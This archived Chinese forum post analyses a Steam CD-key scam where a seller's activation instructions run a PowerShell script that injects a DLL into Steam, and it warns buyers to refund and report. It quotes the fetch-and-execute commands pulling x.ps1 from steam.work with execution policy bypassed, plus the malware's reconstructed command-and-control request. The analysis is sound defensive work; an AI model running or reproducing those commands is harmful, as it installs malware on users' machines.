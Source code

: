 ```yaml
---
created: 2024-08-17T12:00:00
source: https://www.52pojie.cn/
type: archive-web
modified: 2025-01-15T11:38:17
---
```


结论放在前面：如果买 cdkey 买到让你要输入某个脚本再激活的，那别去管他，立刻退货并举报商家！原因就直接贴我写这个就行...

该商家在使用 Steam 注入病毒假入库来进行诈骗，证据： https://www.52pojie.cn/thread-1949495-1-1.html 请立即退款，我将会向消费者协会说明本店情况！

## 正文

刚刚去买了个 cdkey 准备送给朋友，结果一看发货介绍感觉有点不对劲：

![](https://attach.52pojie.cn/forum/202407/30/145827ao6s9k6ys3bc0c7k.jpg)

啥啊，irm iex 这不是经典的从网络获取脚本并执行的操作吗，怎么领个激活码还要搞这？

我一开始还以为是自动安装加速器，商家还怪好的捏，直到我激活不了，把这脚本拉下来看了看：

![](https://attach.52pojie.cn/forum/202407/30/145830nke1r0snral6aans.jpg)

![](https://attach.52pojie.cn/forum/202407/30/145840hp7uuxu5dfu1t9p1.png)

好家伙 这玩意整了个极其有欺骗性的东西，因为 powershell 的多行注释正好是<# #>，正好 HTML 文件的开头是

<!DOCTYPE html> 这鸟人给他改成 <#!DOCTYPE html> 就变成 powershell

的注释了.. 我都差点没看出来..网页还做了 UA 判断和跳转，真是够阴损

那么真实的代码就只剩两行了：

  - `irm steam.work/pwsDwFile/new1` `-OutFile` `x.ps1`
  - `powershell.exe` `-ExecutionPolicy` `Bypass ``-File` `x.ps1;`

看得出来，又是下脚本...我们把这玩意也下下来看一眼：

![](https://attach.52pojie.cn/forum/202407/30/145833we4z5wqcr1w4w51r.jpg)

我怎么兑换个激活码你还给我注入上 Steam 了！有病啊！

那么我们便不得不好奇一下注入的文件里到底干了啥呢，我们下下来拖进静态分析，但是里面几乎啥都没有，只有两个有意思的地方：

1. 把危险函数 VirtualAlloc 等 伪装成普通函数：

![](https://attach.52pojie.cn/forum/202407/30/145838c3nhkbmqphhcbhb1.jpg)

2. 里面有 zlib.inflate （图里打错了）

![](https://attach.52pojie.cn/forum/202407/30/145835p9o3wu9zsbc3119u.jpg)

看上去他是在尝试现场解压某种 payload 来执行啊！我们直接开一个 Windows Sandbox 来动态调试一下：

打开 x32dbg，在 zlib.inflate 处打断点，很容易就拿到解压出的东西

![](https://attach.52pojie.cn/forum/202407/30/145956yfkoq8e4m1mkm21f.jpg)

> [eax + 0x4 * 3] -> 解压出缓冲区指针

[eax + 0x4 * 5] -> 解压出数据长度

不看不知道，一看 MZ 开头，PE 格式没跑了，直接一个 savefile 把它存下来，拖进 Binary Ninja

这个文件也有点诡异，有三个 .text 段里面两个都是空的，还有一个 XRef 几乎扫不出来...总之先看一眼 IAT：

![](https://attach.52pojie.cn/forum/202407/30/145847gg0xazz6azah3baz.png)

怎么还引用了一个 winsqlite 啊，看起来像是打算操作 Steam 的数据库？

![](https://attach.52pojie.cn/forum/202407/30/145845mlrjrlvr5p9bbtef.png)

这里还有一些十足诡异的找不到引用的函数，看上去是加密的字符串

（接前文）

那么自然我们现在应该给导出的仅有的几个函数打一下断点看看；首当其冲怀疑的就是这个网络函数

直接先在该 dll 加载前打断点，暂停后在 InternetOpenA 打断点；发现有反调试检测，用 ScyllaHide Basic 轻松过掉

然后就断下来了，我们来看一眼

![](https://attach.52pojie.cn/forum/202407/30/215523o7u1kxxujrgrugg3.png)

直接找到病毒开始请求配置的地方和端点了，大收获啊；但是我们直接访问 http://api.steam.work/api/integral/vs

，他是返回 403 Unauthorized 的，看来可能有什么 UA，POST body 之类的，继续下断点查一下

在 InternetOpenA InternetConnectA HttpOpenRequestA HttpSendRequestA，成功还原整个请求：

HTTP1.1 POST http://api.steam.work/api/integral/vs

Referer: version

user-agent: steam

{"sign":"ckv"}

![](https://attach.52pojie.cn/forum/202407/30/223611wz4vask1886h1rqz.png)

返回值拿到手，只有一串不知道是什么的 hex；我们先再看看其他几个点

sqlite 这边下断点以后啥也没有，可能是激活的时候才会操作（我用的 Windows Sandbox，不知道为什么打不开 Steam……）

于是转移到一台实机上继续分析。

直接拿它给的虚假激活码来激活，可以直接断在 HTTP 请求点

把请求掏出来看看：

![](https://attach.52pojie.cn/forum/202407/30/232903zcb68eeeo4cbzc6c.png)

看起来是成功了，返回一个 code 和一个 data；

这个 ID 又是啥？

![](https://attach.52pojie.cn/forum/202407/30/233035wttovtaonjs6vm6v.png)

哦，哈迪斯的 App ID

那么接着调试，在一通奇奇怪怪的网络请求之后，它下下来一个 8k 的文件到 steam 的目录里

C:\Program Files (x86)\Steam\package\data

![](https://attach.52pojie.cn/forum/202407/30/234856lkzexundx2yad8bn.png)

这是干啥的呢？看看我们正常的 Steam 这里有什么...居然什么都没有！

那么就说明，这个文件是病毒专用的了；我们直接 ImHex 打开

![](https://attach.52pojie.cn/forum/202407/30/235712yzh51mmbzcnc57yd.png)

居然是个数据库！怪不得他要链 winsqlite；那这个数据库里有啥？我们丢进查看器：

![](https://attach.52pojie.cn/forum/202407/30/235849hgwxgdgj3iq30uvz.png)

有个 appid，和两个不认识的 hex；把键名拿去搜搜看：

![](https://attach.52pojie.cn/forum/202407/31/000011c4et5p5r1ara5pe1.png)

![](https://attach.52pojie.cn/forum/202407/31/000018c50rr0c0nmmc1cle.png)

原来是这样！这是一种叫做“清单入库”的已经广为流传的 Steam 免费入库方式，结果被不法商家用于欺诈消费者，十分恶劣！

还有一些相关信息，大家可以自行查看→

https://github.com/pjy612/SteamManifestCache/discussions/374

https://github.com/pjy612/SteamManifestCache/wiki/DecryptionKey |
